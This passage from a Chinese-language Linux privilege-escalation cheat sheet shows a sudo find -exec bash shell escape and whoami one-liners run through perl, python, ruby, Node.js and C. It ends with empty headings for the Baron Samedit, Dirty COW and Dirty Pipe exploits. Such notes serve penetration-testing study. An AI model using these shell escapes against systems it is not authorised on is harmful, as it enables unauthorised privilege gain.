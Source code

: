 ```plaintext
sudo -u UserName find /etc -iname z -exec bash \;
```

### 2.3 内置编程语言

perl

```plaintext
perl -e 'print `whoami`'
```

python

```plaintext
python2 -c "from os import system; system('whoami')"
python2 -c "from subprocess import call; call(['whoami', '--help'])"
```

ruby

```plaintext
gbb@ca27536ed8de:~$ ruby -e 'puts `whoami`'
gbb
gbb@ca27536ed8de:~$ ruby -e 'require "irb" ; IRB.start(__FILE__)'
irb(main):001:0> puts `whoami`
victim
=> nil
```

Node.js

```plaintext
gbb@aa8553bd270f:~$ node -e '
> var exec = require("child_process").exec;
> exec("whoami", function (error, stdOut, stdErr) {
> console.log(stdOut);
> });
> '
gbb
```

C

```c
int main(void)
{
system("whoami");
}
```

### 2.4 Baron Samedit（CVE-2021-3156）

### 2.5 Dirty COW（CVE-2016-5195）

### 2.6 Dirty Pipe（CVE-2022-0847）
